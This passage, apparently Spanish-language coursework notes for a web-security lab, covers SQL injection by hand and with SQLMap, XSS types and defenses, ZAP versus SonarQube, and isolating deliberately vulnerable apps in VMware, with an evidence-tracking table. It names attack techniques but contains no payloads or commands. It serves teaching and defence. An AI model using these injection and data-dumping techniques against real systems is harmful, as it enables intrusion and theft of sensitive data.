A mano demuestro que entiendo la técnica (UNION, ORDER BY, information_schema). SQLMap automatiza la enumeración y el dump, detecta el tipo de inyección y crackea hashes. El trabajo pide las dos: la manual prueba el concepto, SQLMap da velocidad y cobertura.
Por menor privilegio: si la cuenta de la app solo accede a lo que necesita, una SQLi no alcanza datos sensibles. Sumado a no guardar el CVV y tokenizar el PAN (PCI-DSS), el impacto de la inyección baja aunque exista el bug.
Reflejado: el payload viaja en la petición y se refleja en la respuesta. DOM: el navegador lo inserta por JavaScript del lado cliente sin pasar por el servidor. Persistente: queda guardado (BD) y se sirve a otros usuarios. El persistente es el más grave porque afecta a terceros sin interacción.
Codificación de salida según el contexto (HTML, atributo, JS), Content-Security-Policy que bloquea scripts no permitidos, y cookies HttpOnly para que un XSS no robe la sesión. Sanitizar la entrada ayuda, pero la defensa principal es codificar en la salida.
ZAP (DAST) prueba la app corriendo, sin ver el código, y confirma qué se explota. SonarQube (SAST) lee el código fuente y marca el patrón inseguro con archivo y línea, antes de desplegar. DAST confirma el efecto; SAST localiza la causa. Juntas cubren más que cualquiera sola.
Los scanners dan falsos positivos y se pierden fallas de lógica de negocio. Sirven para cubrir terreno rápido, pero el hallazgo hay que verificarlo a mano y entender el impacto. Por eso el informe explica cada ítem, no solo lo lista.
Las apps son deliberadamente vulnerables; exponerlas a la red sería un riesgo real. En VMware aisladas se practica la explotación sin afectar a nadie y es un entorno autorizado y reproducible.
| Parte | Método | Evidencia |
|---|---|---|
| 1 VMs | documentado | captura al arrancar la VM |
| 2 SQLi manual | payloads listos | UNION ejecutado en DVWA ✓ |
| 3 SQLMap + tarjetas | comandos listos | dump dvwa.users ✓ · tarjetas Mutillidae ✓ |
| 4 XSS | payloads y localizaciones | DOM XSS Juice Shop ✓ · alert DVWA pendiente |
| 5 ZAP | procedimiento listo | scan Juice Shop + informe ✓ |
| 6 SonarQube | servidor corriendo ✓ | Issues DVWA + Mutillidae ✓ |
Las capturas marcadas pendiente se toman al correr cada prueba sobre la VM vulnerable (descarga del appliance de 5 GB en curso). Ninguna captura está inventada.